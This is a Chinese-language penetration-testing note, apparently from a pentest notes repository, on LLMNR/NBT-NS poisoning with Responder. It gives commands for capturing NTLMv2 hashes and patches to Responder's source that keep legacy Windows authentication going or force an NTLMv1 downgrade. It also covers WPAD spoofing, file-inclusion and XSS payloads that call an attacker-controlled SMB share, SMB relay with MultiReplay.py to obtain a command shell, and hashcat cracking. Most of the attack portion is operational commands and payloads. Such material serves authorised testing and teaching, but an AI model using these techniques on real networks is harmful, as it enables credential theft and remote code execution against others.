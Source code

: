 ### Responder/LLMNR毒害
#### SMB协议截获
	内网中间人攻击脚本，kali内置
	监听网络接口
	>responder -I wlan0(eth0)
	指定某台机器或网段：修改/etc/responder/Responder.py中RespondTo参数。
	网段中有认证行为会捕获NTLMv2 hash
![image](/assets/Pentest_Note/master/img/429.png)

	当访问一个不存在的共享时修改配置文件来解析
	Xp
	修改/usr/share/responder/servers/SMB.py定位到errorcode修改为\x71\x00\x00\xc0，删除掉/usr/share/responder/Responder.db
![image](/assets/Pentest_Note/master/img/430.png)

	XP时使用\\cmd\share形式访问共享输入密码达4次会断开连接。
	定位到
![image](/assets/Pentest_Note/master/img/431.png)

	修改self.ntry != 10
	Win7以上
	修改/usr/share/responder/servers/SMB.py定位到##Session Setup 3
![image](/assets/Pentest_Note/master/img/432.png)

	删除掉and GrabMessageID(data)[0:1] == "\x02"，删除掉/usr/share/responder/Responder.db
	修改后可以进行解析，捕获hash，否则会报错误64
![image](/assets/Pentest_Note/master/img/433.png)

	强制截取NTLMv1 hash，修改/usr/share/responder/packets.py，定位到以下参数，修改为\x15\x82\x81\xe2，修改Conf文件设置Challenge为16位固定值。
![image](/assets/Pentest_Note/master/img/434.png)
![image](/assets/Pentest_Note/master/img/435.png)
![image](/assets/Pentest_Note/master/img/436.png)
#### WPAD代理欺骗
	>responder -I eth0 -v -F 
	F参数即可开启强制WPAD认证服务抓取 hash，访问IE或重启电脑即可发送欺骗认证获得hash。
![image](/assets/Pentest_Note/master/img/437.png)
![image](/assets/Pentest_Note/master/img/438.png)

	重启也可以抓到
![image](/assets/Pentest_Note/master/img/439.png)
#### Web漏洞
	内网中使用文件包含漏洞和XSS
	>Responder -I eth0 -v
	http://10.1.1.1/file.php?file=\\10.1.1.12\share
	http://10.1.1.1/xss.php?article=<img src=\\10.1.1.12\xx>
#### SMB中继攻击
	修改/etc/responder/Responder.conf文件，配置smb和http为Off，分别开启两个对话框，使用F参数启用WPAD欺骗浏览器，使用/usr/share/responder/tools中的MultiReplay.py进行中继攻击获得目标cmdshell。
	>Responder -I eth0 -v -F
	>python MultiReplay.py -t 192.168.0.115 -u ALL
![image](/assets/Pentest_Note/master/img/440.png)
![image](/assets/Pentest_Note/master/img/441.png)
#### NTLMv2Hash破解
	使用hashcat破解 -m 5600为NTLMv2类型
	>hashcat -m 5600 pass.txt wordlists.txt
![image](/assets/Pentest_Note/master/img/442.png)
